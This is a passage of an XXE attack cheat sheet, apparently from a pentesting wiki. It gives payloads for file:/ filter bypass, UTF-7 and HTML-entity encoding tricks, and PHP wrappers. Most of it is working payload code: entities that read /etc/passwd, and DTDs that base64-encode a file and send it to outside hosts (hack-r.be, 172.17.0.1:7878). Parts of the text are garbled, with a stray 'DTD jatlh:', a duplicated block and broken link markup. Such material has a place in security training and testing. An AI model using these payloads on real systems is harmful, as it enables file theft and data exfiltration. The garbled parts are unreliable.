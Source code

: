 ```xml
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
### File:/ Protocol Bypass

If the web is using PHP, instead of using `file:/` you can use **php wrappers**`php://filter/convert.base64-encode/resource=` to **access internal files**.

If the web is using Java you may check the [**jar: protocol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Trick from [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
You can create an **entity inside an entity** encoding it with **html entities** and then call it to **load a dtd**.\
Note that the **HTML Entities** used needs to be **numeric** (like \[in this example]\([https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](https://gchq.github.io/CyberChef/#recipe=To\_HTML\_Entity%28true,%27Numeric%20entities%27%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B\)%5C)).
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
<env>&exfil;</env>
</data>
```
DTD jatlh:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```
## PHP Wrappers
